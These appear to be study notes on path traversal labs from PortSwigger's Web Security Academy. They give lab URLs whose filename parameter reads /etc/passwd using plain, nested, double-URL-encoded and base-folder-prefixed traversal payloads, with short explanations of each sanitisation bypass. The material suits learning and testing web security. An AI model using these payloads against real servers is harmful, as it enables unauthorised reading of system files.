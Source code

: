 ___

```
https://0af200fb03feb838824f564900bc0062.web-security-academy.net/image?filename=/etc/passwd
```

```
https://0af9004403ec535286c8cf3100fb0062.web-security-academy.net/image?filename=../../../etc/passwd
```

`....//` or `....\/`

```
https://0a16002004c795cb8567554500cb004d.web-security-academy.net/image?filename=....//....//....//etc/passwd
```

In some contexts, such as in a URL path or the `filename` parameter of a `multipart/form-data` request, web servers may strip any directory traversal sequences before passing your input to the application. You can sometimes bypass this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

```
https://0a9f0022039b1e5880a649ed00f500a8.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.



